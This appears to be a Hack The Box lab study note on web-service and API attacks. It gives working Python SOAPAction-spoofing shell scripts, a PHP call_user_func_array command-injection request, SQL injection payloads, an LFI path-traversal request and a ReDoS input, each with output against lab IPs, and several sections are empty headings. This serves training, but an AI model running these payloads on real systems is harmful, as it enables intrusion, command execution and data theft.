 

# Web Services Attacks

## SOAPAction Spoofing

- If HTTP is the transport of choice, it is allowed to use an additional HTTP header called **SOAPAction**, which contains the operation's name. 
- The receiving web service can identify the operation within the SOAP body through this header without parsing any XML.
- If a web service considers only the **SOAPAction** attribute when determining the operation to execute, then it may be vulnerable to **SOAPAction spoofing**

**EX :**
- in the above service we have SOAPAction operation called `ExecuteCommand`
- if we use this script to send soap request to `ExecuteCommand`
```python
import requests 


url = "http://10.129.255.79:3002/wsdl"

while True :
    cmd = input("$ ")
    payload = f"""<soap:Envelope
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <ExecuteCommandRequest xmlns="http://tempuri.org/">
            <cmd>{cmd}</cmd>
        </ExecuteCommandRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"ExecuteCommand"'} )
    print(res.text)
```
- response 
```shell
python3 shell.py

$ whoami
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>
```

- using operation `ExecuteCommand` return an error  `This function is only allowed in internal networks`
- so we can use another operation in the service that is allowed outside internal network but the `SOAPAction` Header will be set to `ExecuteCommand`
- lets use `Login` operation , put `LoginRequest` element in the body but with `cmd` parameter 
```python
import requests 


url = "http://10.129.255.79:3002/wsdl"

while True :
    cmd = input("$ ")
    payload = f"""<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <LoginRequest xmlns="http://tempuri.org/">
            <cmd>{cmd}</cmd>
        </LoginRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"ExecuteCommand"'} )
    print(res.text)

```
- response 
```shell
 python3 shell.py 
 
$ whoami
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root
</result></LoginResponse></soap:Body></soap:Envelope>
```



## Command injection

you can achieve a command injection through API 

**EX:**
- consider this PHP REST API 
```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```
- the ping function is safe , but the Webservice is not it is using `call_user_func_array` which take args directly from the user 
- `call_user_func_array` call a function using the first argument and set it's arguments using the second argument
- so we can make a request to call the system function and set it's argument like this
```bash
$ curl "http://10.129.255.79:3003/ping-server.php/system/id"  
uid=0(root) gid=0(root) groups=0(root)
```


# APIs Attacks

## SQLI 

- try inject SQL in API paramters 
```bash
curl "http://10.129.230.235:3003/?id=1+OR+1=1+--+-"

[{"id":"1","username":"admin","position":"1"},{"id":"2","username":"HTB-User-John","position":"2"},{"id":"3","username":"WebServices","position":"3"},{"id":  
"8374932","username":"HTB{THE_FL4G_FOR_SQLI_IS_H3RE}","position":"736373"}]
```
- other example in soap based api 
```python 
import requests 


url = "http://10.129.202.133:3002/wsdl"

while True :
    username = input("username ")
    password = input("passowrd ")
    payload = f"""<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <LoginRequest xmlns="http://tempuri.org/">
            <username>{username}</username>
            <password>{password}</password>
        </LoginRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"Login"'} )
    print(res.text)

```
- result
```shell-session
$ username admin' -- -
$ passowrd


<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><id>0</id><name>Administrator</name><email>admin@htb.net</email><username>admin</username><password>FLAG{1337_SQL_INJECTION_IS_FUN_:)}</password></LoginResponse></soap:Body></soap:Envelope>
```

## Insecure File Upload

## LFI
```shell-session
$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"

127.0.0.1 localhost
127.0.1.1 nix01-websvc
```

## XSS
- like reflection in error messages 

## SSRF



## Regular Expression Denial of Service (ReDoS)
	Regular Expression Denial of Service (ReDoS) is a type of cyber attack that        targets applications or systems that use regular expressions to process and        validate input data.

**EX:**
```shell-session
curl "http://<TARGET IP>:3000/api/check-email?email=test_value"

{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```

- The second and third groups are doing bad iterative checks.
- lets try this exploit and the server will respond in more time :

```shell-session
curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."

{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```


## XXE
